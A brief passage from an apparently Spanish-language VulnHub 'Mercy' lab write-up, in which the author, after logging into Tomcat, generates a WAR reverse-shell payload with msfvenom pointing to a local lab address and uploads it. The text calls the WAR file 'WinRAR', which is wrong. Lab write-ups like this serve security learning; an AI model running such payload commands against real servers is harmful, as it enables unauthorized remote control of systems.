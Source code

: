 ![](/assets/images/vulnhub-writeup-mercy/script-lfi.png)


### Tomcat


Después de haber iniciado sesión en el servicio Tomcat, se creó un archivo WinRAR malicioso con el propósito de llevar a cabo una acción específica en el servidor.


```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.1 LPORT=443 -f war -o cxshell.war 
```

Procedemos a subirlo.


![](/assets/images/vulnhub-writeup-mercy/upload-war.png)
